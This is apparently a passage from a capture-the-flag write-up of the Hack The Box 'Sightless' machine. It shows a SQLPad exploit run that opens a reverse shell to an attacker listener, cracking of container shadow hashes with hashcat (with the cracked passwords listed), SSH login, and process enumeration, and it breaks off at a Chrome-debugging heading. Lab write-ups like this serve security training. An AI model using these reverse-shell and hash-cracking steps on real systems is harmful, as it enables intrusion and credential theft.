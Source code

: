 Then executed the exploit:

```bash
❯ python sqlpad_exploit.py http://sqlpad.sightless.htb/ 10.10.14.149 4444
```

This provided initial access, but I found myself in a Docker container:

```bash
❯ rev
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.149:4444
Ncat: Connection from 10.129.190.223:54312.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad# whoami
whoami
root
```

## Lateral Movement

### Container Enumeration

Inside the container, since I was root, I could view the shadow file hashes which I extracted and cracked using hashcat:

```bash
❯ hashcat -m 1800 -a 0 shadow.txt ~/htb/code/rockyou.txt
```

Results:
- michael:insaneclownposse
- root:blindside

Using these credentials, I successfully authenticated to the host system via SSH:

```bash
❯ ssh michael@sightless.htb
```

This provided access to the user flag: `4d4dc0c45426f0df47b91165--snip--`

### Process Enumeration

Process analysis revealed several interesting services running as root and the john user:

```bash
root        1487  1.2  3.2 984152 130200 ?       Ssl  19:00   2:59 node /usr/app/server.js
john        1575  0.0  0.6  33660 24856 ?        S    19:02   0:06 /usr/bin/python3 /home/john/automation/administration.py
john        1576  0.2  0.3 33630172 15340 ?      Sl   19:02   0:40 /home/john/automation/chromedriver --port=60679
```

### Chrome Debugging Exploitation
